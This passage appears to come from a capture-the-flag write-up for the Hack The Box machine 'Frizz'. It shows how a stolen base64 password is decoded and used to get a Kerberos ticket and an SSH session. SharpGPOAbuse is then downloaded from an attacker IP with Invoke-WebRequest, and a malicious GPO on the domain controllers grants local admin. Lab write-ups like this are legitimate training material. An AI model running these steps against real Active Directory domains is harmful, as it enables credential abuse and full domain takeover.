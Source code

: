 ```
root_dir = c:\wapt\waptserver\repository\wads\pxe
log_path = c:\wapt\log
```

Got a base64 string as the password:

```bash
echo 'IXN1QmNpZ0BNZWhUZWQhUgo=' | base64 -d
!suBcig@MehTed!R
```

Got a password, this is most likely the password of `M.Schoolbus` due to the privileges of the user being similar to administrator ones, let's go into ssh again to check it out:

```
impacket-getTGT frizz.htb/'M.SchoolBus':'!suBcig@MehTed!R' -dc-ip frizzdc.frizz.htb

export KRB5CCNAME=M.SchoolBus.ccache

ssh -o PreferredAuthentications=gssapi-with-mic -o GSSAPIAuthentication=yes M.SchoolBus@frizz.htb -K
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250616184457.png)

Ok, the last step we need is to exploit that we are able to create a GPO as shown in bloodhound, for this, we can use `SharpGPOABUSE`:

FILE: https://github.com/byronkg/SharpGPOAbuse/blob/main/SharpGPOAbuse-master/SharpGPOAbuse.exe

We need to get the file into our machine, can be done using the same method as before:

```powershell
Invoke-WebRequest "http://10.10.14.40:8000/SharpGPOAbuse.exe" -OutFile "SharpGPOAbuse.exe"
```

Once we got our file, we can begin, first of all we must create the GPO over domain controllers:

```powershell
New-GPO -Name New-GPO | New-GPLink -Target "OU=DOMAIN CONTROLLERS,DC=FRIZZ,DC=HTB" -LinkEnabled Yes
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250616185424.png)


Now, we can use the tool in our new GPO to get the same privilege as admin:

```
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount M.SchoolBus --GPOName New-GPO --force
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250616185448.png)

Now we need to update:

```
gpupdate /force
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250616191049.png)
